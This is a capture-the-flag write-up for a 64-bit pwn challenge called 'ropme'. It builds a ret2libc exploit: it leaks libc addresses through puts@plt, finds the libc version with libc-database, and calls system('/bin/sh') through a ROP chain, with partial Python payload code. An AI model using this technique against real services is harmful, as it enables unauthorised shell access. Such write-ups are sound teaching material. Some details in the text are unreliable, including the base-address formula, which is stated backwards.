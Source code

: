 # ropme

> Can you pwn the service and get the flag? 

Starting off with the classic `checksec` shows us:

```
[*] '/root/Downloads/ropme/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

NX enabled means no shellcode. Therefore, we're going to have to exploit with a `libc` exploit.

Using `pattern create X` we can see that the buffer is `72` bytes long. 

Assuming `alsr` is active on the server, we're going to have to bypass it by leaking addresses.
We can achive this by using the `puts@plt` to print the location of `puts@got`. This can then be used to calculate the location of `libc`.

Due to the binary being 64-bits we're going to have to place the argument in `rdi`. The binary contains a perfect gadget to achive this.

The first round of gadgets are arranged like so:

```python
payload = b""
payload += junk
payload += pop_rdi
payload += puts_got
payload += puts_plt
payload += main_adr

p.sendline(payload)
```

This will print out the address of `plt`. Due to us not knowing the `libc` version on the server, we need another leaked address to compare to, `fgets` is the example used in this exploit. This same ROP chain was greated for `fgets`.

This then allows us to us the [libc-database](https://github.com/niklasb/libc-database) repository to find the version of `libc` with the gap between these values.

Running:
```
./find fgets 0x7fdf868efad0 puts 0x7fdf868f1690
```

Produces:
```
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```

Either of these versions of `libc` can be used to extract the offsets.

The commands below are used to find strings (/bin/sh) or function addresses

```
readelf -s <LIBC_PATH> | grep <FUNCTION_NAME>
strings -a -t x <LIBC_PATH>
```

The base address for `libc` is calculated using the offset for `libc` version of `puts` minus the actual address of `puts` we leaked earlier.

This can subsequently be used to find the actual addresses of anything in the the version of `libc`. This can be used with ALSR on!

The final ROP chain calls the newly discovered value of `system` with the string value for `/bin/sh`.

```python
payload = b""
payload += junk
payload += pop_rdi
payload += bin_sh
payload += system
```
